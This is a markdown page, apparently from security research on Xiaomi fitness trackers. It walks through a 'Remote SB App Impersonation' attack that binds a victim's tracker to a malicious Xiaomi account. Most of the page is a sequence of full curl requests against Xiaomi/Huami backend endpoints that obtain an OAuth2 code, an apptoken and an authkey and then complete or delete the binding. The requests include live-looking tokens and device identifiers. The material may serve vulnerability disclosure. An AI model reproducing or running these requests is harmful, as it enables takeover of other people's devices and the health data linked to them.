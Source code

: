 # Web Requests for Xiaomi Server-based Pairing v2

This how Xiaomi trackers perform server-based pairing v2 by sending web requests to Xiaomi backend. As a requirement, the victim tracker must not be already registered on Xiaomi backend as paired, thus it is necessary to send a factory reset command to the tracker through Breakmi Android app. The Remote SB App Impersonation can be imitated by manually sending the factory request command, sending the 5 requests explained below, and opening Zepp Life with a malicious account.

## Retrieving the OAUTH2 code

**http://account.xiaomi.com/oauth2/authorize?skip_confirm=false&client_id=428135909242707968&pt=1&scope=1+6000+16001+16002+20000&redirect_uri=https%3A%2F%2Fapi-mifit-cn.huami.com%2Fhuami.health.loginview.do&_locale=en_US&response_type=code&userId=7034468780&nonce=bkGvbHWsdKwBnE7Q&confirmed=true&from_login=true&sign=vi0n5XQ0mQgIvyXvXXilf4HXQV8%3D**

To quickly retrieve his OAUTH2 code, any user can visit the link above. Logging with a malicious Xiaomi account is required. The output webpage will be similar to *https://api-mifit-cn.huami.com/huami.health.loginview.do?code=AZAMSSRV_CA013BAE4F4AEF90F0F1E497C7271DFB*.

## Retrieving the apptoken

**curl -X POST https://account.huami.com/v2/client/login -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -d "dn=account.huami.com%2Capi-user.huami.com%2Cauth.huami.com%2Capi-analytics.huami.com%2Capi-mifit.huami.com%2Capp-analytics.huami.com%2Capi-watch.huami.com&app_version=4.7.0&source=com.xiaomi.hm.health%3A4.7.0%3A50381&country_code=IT&device_id=02%3A00%3A00%3A00%3A00%3A00&third_name=xiaomi-hm-mifit&lang=en&device_model=android_phone&allow_registration=false&app_name=com.xiaomi.hm.health&code=ALSG_CLOUDSRV_8529C90C84A6D2EA154132BF2EF0E3B4&grant_type=request_token&"**

Using the OAUTH2 code as a parameter, a user can retrieve several info; most importantly the apptoken and the userId.

## Preparations for Binding

**curl -X GET https://api-mifit-de2.huami.com/v1/device/binds.json?r=d56c5517-c1c7-4c43-9554-8b29726faefd&t=1621258506420&app_time=1621258506&brandType=-1&productVersion=-1&code=0&activeStatus=-1&productId=-1&bind_timezone=4&device_source=8&device_type=0&crcedUserId=0&userid=7046005119&appid=428135909242707968&auth_key=&brand=samsung&callid=1621258506416&channel=play&country=US&cv=50381_4.7.0&device=android_23&deviceid=&displayName=&enableMultiDevice=true&fw_hr_version=&fw_version=&hardwareVersion=&lang=en_US&mac=FB%3A41%3A81%3A48%3AF2%3AD0&sn=&soft_version=&sys_model=SM-G900F&sys_version=Android_6.0.1&timezone=Europe%2FRome&v=2.0 -H "apptoken: DQVBQFJyQktGHlp6QkpbRl5LRl5qek4uXAQABAAAAAIyLI1YQEF8SxUroYzSuaUdOtev-47tnY4LlzJpTzhNyWR6PgSEU7Y1GCKnGl8GqPmGaODvpxZi-bRm5QhyAUwr9Ll4I2ZxxR7CyJxNt5AC1CsHcjFRzazBbFyMUs4A2RB48vO0pyp6BeNnz203bipnnvzCRqJHTm7lBUYBewIAU"**

Using the apptoken the userId, and the BLE address of the victim tracker as parameters, a user can ask Xiaomi backend to prepare to bind his account to a tracker. This operation is mandatory, even though it doesn't return useful data.

## Retrieving the authkey

**curl -X GET https://api-mifit-de2.huami.com/v1/device/binds.json?r=d56c5517-c1c7-4c43-9554-8b29726faefd&t=1621258514583&device_type=0&userid=7034468780&appid=428135909242707968&callid=1621258514579&channel=play&country=US&cv=50381_4.7.0&device=android_23&lang=en_US&publickeyhash=SHA1%3A1863c2cce5d159413bed92c4b163c279&random=ElmfrrmDGMMxLSS1U7kS8jrnagV16%2BGmqvghTPQAO7I%3D&timezone=Europe%2FRome&v=2.0 -H "apptoken: DQVBQFJyQktGHlp6QkpbRl5LRl5qek4uXAQABAAAAAIyLI1YQEF8SxUroYzSuaUdOtev-47tnY4LlzJpTzhNyWR6PgSEU7Y1GCKnGl8GqPmGaODvpxZi-bRm5QhyAUwr9Ll4I2ZxxR7CyJxNt5AC1CsHcjFRzazBbFyMUs4A2RB48vO0pyp6BeNnz203bipnnvzCRqJHTm7lBUYBewIAU"**

Using the apptoken and the userId as parameters, a user can retrieve a Base64-encoded authkey that must be used during Pairing v2 (sent in chunks to the tracker through the Chunked Transfer characteristic). Two additional inputs are the publickey has, which is communicated by the tracker, but is actually fixed for every device, and the random, which acts as a (deterministic) seed for the authkey generation, and is sent by the tracker so the user can put whatever value he likes.

## Completing Pairing

**curl -X POST https://api-mifit-de2.huami.com/v1/device/binds.json?r=d56c5517-c1c7-4c43-9554-8b29726faefd&t=1621258524458 -H "Content-Type: application/x-www-form-urlencoded" -d "app_time=1621258524&brandType=-1&productVersion=257&code=0&activeStatus=1&productId=61&bind_timezone=4&device_source=59&device_type=0&crcedUserId=0&userid=7046005119&appid=428135909242707968&auth_key=12599faeb98318c3312d24b553b912f2&brand=samsung&callid=1621258524456&channel=play&country=US&cv=50381_4.7.0&device=android_23&deviceid=FB418148F2D0&displayName=&enableMultiDevice=true&fw_hr_version=&fw_version=V1.0.2.24&hardwareVersion=V0.44.18.2&lang=en_US&mac=FB%3A41%3A81%3A48%3AF2%3AD0&sn=ec5326f9ddf3&soft_version=4.7.0&sys_model=SM-G900F&sys_version=Android_6.0.1&timezone=Europe%2FRome&v=2.0" -H "apptoken: DQVBQFJyQktGHlp6QkpbRl5LRl5qek4uXAQABAAAAAIyLI1YQEF8SxUroYzSuaUdOtev-47tnY4LlzJpTzhNyWR6PgSEU7Y1GCKnGl8GqPmGaODvpxZi-bRm5QhyAUwr9Ll4I2ZxxR7CyJxNt5AC1CsHcjFRzazBbFyMUs4A2RB48vO0pyp6BeNnz203bipnnvzCRqJHTm7lBUYBewIAU"**

Using the apptoken, userId, the authkey, the tracker BLE address and the deviceid (same as the address but without punctuation), a user can complete the pairing procedure and link the victim tracker to his Xiaomi account.

## (Extra) Deleting Server-based Pairing

**curl -X DELETE https://api-mifit-de2.huami.com/v1/device/binds.json?r=f13bb1f6-cd98-4c78-9bb8-f66470e07e66&t=1621293645744&app_time=1621293645&brandType=-1&productVersion=-1&code=0&activeStatus=-1&productId=-1&bind_timezone=4&device_source=59&device_type=0&crcedUserId=0&userid=7046005119&appid=428135909242707968&auth_key=&brand=samsung&callid=1621293645743&channel=play&country=US&cv=50381_4.7.0&device=android_23&deviceid=FB418148F2D0&displayName=&enableMultiDevice=true&fw_hr_version=&fw_version=&hardwareVersion=&lang=en_US&mac=FB%3A41%3A81%3A48%3AF2%3AD0&sn=&soft_version=&sys_model=SM-G900F&sys_version=Android_6.0.1&timezone=Europe%2FRome&v=2.0 -H "apptoken: DQVBQFJyQktGHlp6QkpbRl5LRl5qek4uXAQABAAAAAPXZsPCfh3T96p9XxQgefC3TikA0DDGSBp0cBHCjCkOurT4nglCouHItns9TkIloc0_jhp0a-0n-LXdG9cpkRDjtfikzSayw7TxFc82rg3W5qSm4hmmhXz-1rB4gl9mDdXytqZWGVwdmJ6oA62CFHxzakpeH40b2JqItjZidF7XX"**

To remove the bonding between a tracker and a user from Xiaomi servers, the user can run the request above (provided he fills it with the correct data, which he is able to retrieve).
